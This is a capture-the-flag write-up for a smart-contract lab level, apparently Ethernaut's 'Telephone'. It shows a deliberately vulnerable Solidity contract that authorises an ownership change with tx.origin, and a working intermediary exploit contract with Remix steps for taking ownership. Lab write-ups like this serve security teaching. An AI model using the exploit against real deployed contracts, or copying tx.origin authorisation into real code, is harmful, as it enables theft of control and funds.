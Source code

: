 # 04 Telephone

```
Claim ownership of the contract 
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}


```

#### Start 


### (1) `Claim ownership of the contract `


Looking at the code, You can see that the part that changes the owner is a  function`changeOwner()`

But you must pass an `if (tx.origin != msg.sender)` condition first.

####  `tx.origin`

assuming you have a chain of call contracts, `tx.origin` will always be the first caller in the chain of call contracts

####  `msg.sender` 

`msg.sender` is the sender of the tx call.

```
 A -call-> B -call-> C 
           |         |_ _ _ _ _ _ _ tx.origin = A
           |                        msg.sender = B
           |
           | tx.origin = A
           | msg.sender = A
```

To claim ownership, we need to write a contract to call the fucntion `changeOwner()` in contract Telephone


```
who wants to claim ownership -> contract ExploitTelephone -> contract Telephone
                                                                    |
                                                                    |
                                                                    | tx.origin = who wants to claim ownership
                                                                    | msg.sender = contract ExploitTelephone
```
will make us pass the condition `if (tx.origin != msg.sender)`

#### This is the code I used to claim ownership contract Telephone
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
	function changeOwner(address _owner) external;

}

contract ExploitTelephone {
    
    function callChangeOwner(address _targetExploit) external{
        Telephone(_targetExploit).changeOwner(***address who wants to claim ownership***);
    }
}
```

Use the remix deploy contract `ExploitTelephone`  then call the function `callChangeOwner(address _targetExploit)` and confirm transaction

Click button Submit instance and confirm transaction

# !!! we passed !!!


